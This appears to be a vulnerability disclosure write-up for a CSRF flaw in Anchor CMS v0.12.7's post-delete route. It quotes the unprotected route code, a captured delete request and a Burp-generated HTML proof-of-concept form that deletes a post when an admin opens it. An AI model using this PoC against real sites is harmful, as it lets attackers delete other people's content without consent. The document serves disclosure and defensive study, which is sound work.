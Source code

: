 # anchorcms-0.12.7-CSRF
CSRF (Cross-site request forgery) Vulnerability discovered in Anchor CMS v0.12.7 and that can delete posts.

# Vulnerability Analysis  

Request interface for adding, deleting, modifying and checking posts in anchor/routes/posts.php.

let us see code it delete a posts. 
```
    /**
     * Delete post
     */
    Route::get('admin/posts/delete/(:num)', function ($id) {
        Post::find($id)->delete();
        Comment::where('post', '=', $id)->delete();

        Query::table(Base::table('post_meta'))
             ->where('post', '=', $id)
             ->delete();

        Notify::success(__('posts.deleted'));

        return Response::redirect('admin/posts');
    });
```
There is no check on token or referer and delete directly.

# Reproduce and PoC

1. Login in as a admin.
2. create some posts for deleteing
3. use brupsuite get a delete request packet
```
GET /admin/posts/delete/5 HTTP/1.1
Host: 192.168.1.89
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:97.0) Gecko/20100101 Firefox/97.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Referer: http://192.168.1.89/admin/posts/edit/3
Cookie: anchorcms=ng848botkffiu4c1lrgbgo50ri
Upgrade-Insecure-Requests: 1

```

The request just delete a posts that id is 5. 
4. use brupsuite to generat a csrf PoC.
```
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="http://192.168.1.89/admin/posts/delete/5">
      <input type="submit" value="Submit request" />
    </form>
  </body>
</html>
```
Then save the PoC code to a exploit.html, and click exploit.html to csrf attack.




